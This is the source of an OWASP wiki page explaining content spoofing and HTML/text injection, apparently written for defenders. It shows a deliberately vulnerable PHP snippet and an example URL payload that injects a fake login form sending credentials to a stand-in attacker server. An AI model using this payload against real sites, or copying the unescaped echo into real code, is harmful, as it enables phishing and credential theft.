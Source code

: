 ```yaml
---
layout: col-sidebar
title: Content Spoofing
author: Andrew Smith
contributors: Jmanico, Wichers, D0ubl3 h3lix, Rishu Ranjan, ADubhlaoich, Arnout Engelen
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing

---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as _content injection_, "arbitrary
text injection" or _virtual defacement_, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust.

The impact of a content spoofing attack strongly depends on the context:
user-supplied information that is reflected in a way that is correctly
escaped and clearly visually marked, such as in error messages, may be
harmless. On the other hand, input that is not clearly visually
distinguised from the 'valid' content may be used in social engineering
attacks, and when the input is not correctly escaped it may even
contain 'active' components, allowing attacks similar to
[Cross-site Scripting (XSS)](/xss).

> Attack Type: Client-Side

## Risk Factors

Content spoofing attacks can be relatively easy to detect in vulnerable
applications. To successfully execute an attack based on content
spoofing, the attacker also needs to trick the victim into clicking
a malicious link, for example via targeted communication or by doing SEO
injection in a way that search engines crawl and index crafted URLs
with falsified messages.

## Audit Guideline

Text injection can be easily found if user input (either via parameters
or directly in the URL) is reflected in the page response.

## Applicable Industries

- A business entity selling one type of product as a major business function

For example, Taxi hailing business, Online shopping business, Online service business

- A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

- Malicious competitors
- Disgruntled employees
- Unsatisfied customers
- Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site Scripting (XSS)](/xss). While XSS
uses `<script>` and other techniques to run JavaScript, content spoofing uses other techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
let's assume no output encoding is being implemented:

1. Attacker discovers injection vulnerability and decides to spoof a login form
2. Attacker crafts malicious link, including their injected HTML content, and sends it to a user via email
3. The user visits the page due to the page being located within a trusted domain
4. The attacker's injected HTML is rendered and presented to the user asking for a username and password
5. The user enters a username and password, which are both sent to the attackers server

- A simple PHP page containing an injection vulnerability via the `name` parameter:

```php
<?php
    $name = $_REQUEST ['name'];
?>
<html>
    <h1>Welcome to the Internet!</h1>
    <br>
    <body>
        Hello, <?php echo $name; ?>!
        <p>We are so glad you are here!</p>
    </body>
</html>
```

The page functionality can be tested by making the following GET request
to the page: `http://127.0.0.1/vulnerable.php?name=test`

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named `login.php` on the attacker's server via
POST.

```
http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
name="password" /><br /><input type="submit" value="Login" /></form><!--
```

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1. An attacker identifies a web application that gives recommendations to its users on whether they should buy or sell a particular stock
2. The attacker identifies a vulnerable parameter
3. The attacker crafts a malicious link by slightly modifying a valid request
4. The link containing the modified request is sent to a user and they clicks the link
5. A valid webpage is created using the attackers malicious recommendation and the user believes the recommendation was from the stock website

**Valid Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now`

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now`

Other example:

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.`

### Email Spoofing via User Input Injection / Content Spoofing via Auto-Linking

In addition to traditional text injection within user interfaces, attackers can exploit user-controlled input fields that are incorporated verbatim into automated emails. Certain email clients (e.g.: Gmail) automatically detect domain-like text or URLs and convert them into clickable links - a process known as auto-linking.

This can result in content spoofing or email spoofing, even if the application properly escapes HTML. For example, an attacker may supply a value such as `www.evilsiteexample.com/gift.exe` in a field like "Full name" or "Project name". The application sends a legitimate email from its own domain (e.g.: `hello@realnameorg.org`), and the recipient sees a clickable link pointing to an attacker-controlled host.

The impact is significant: users may receive what appear to be official invitations or notifications, but links lead to phishing or malware delivery sites. Because the email originates from a trusted domain, the likelihood of user interaction is higher than with typical phishing attempts.

**Valid Email Content**

`You've been invited to PROJECT` (displayed as plain text - e.g. "You've been invited to Contoso Project")

`FULLNAME has invited you to (...)` (displayed as plain text - e.g. "Contoso has invited you to ...")

**Modified Email Content**

`You've been invited to www.evilsiteexample.com` (rendered as clickable link - blue color typically)

`Download www.evilsiteexample.com/gift.exe - Congratulations!! has invited you to (...)` (rendered as clickable link - blue color typically)

## Related [Controls](https://owasp.org/www-community/controls/)

- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

- [CAPEC - 148](http://capec.mitre.org/data/definitions/148.html)
- [WASC - Content Spoofing](http://projects.webappsec.org/w/page/13246917/Content%20Spoofing)
- [Content Injection Attack](http://itlaw.wikia.com/wiki/Content_injection_attack)
- [CERT Advisory on Malicious HTML Tags](http://www.cert.org/advisories/CA-2000-02.html)
- OWASP's [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML Code Injection and Cross-site Scripting](http://www.technicalinfo.net/papers/CSS.html)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
